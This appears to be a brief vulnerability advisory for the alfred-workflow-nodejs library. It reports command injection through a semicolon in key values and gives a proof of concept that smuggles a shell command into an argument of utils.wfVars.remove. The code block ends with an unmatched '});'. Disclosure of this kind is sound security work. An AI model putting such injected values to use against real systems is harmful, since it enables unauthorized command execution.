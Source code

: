 # Overview

alfred-workflow-nodejs is a library providing helpers to create Alfred Workflow.

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in any of the key values.

# Proof of Concept

```
var AlfredNode = require('alfred-workflow-nodejs');
var utils = AlfredNode.utils;

utils.wfVars.remove(' "; whoami>hacked #', false);
});
```
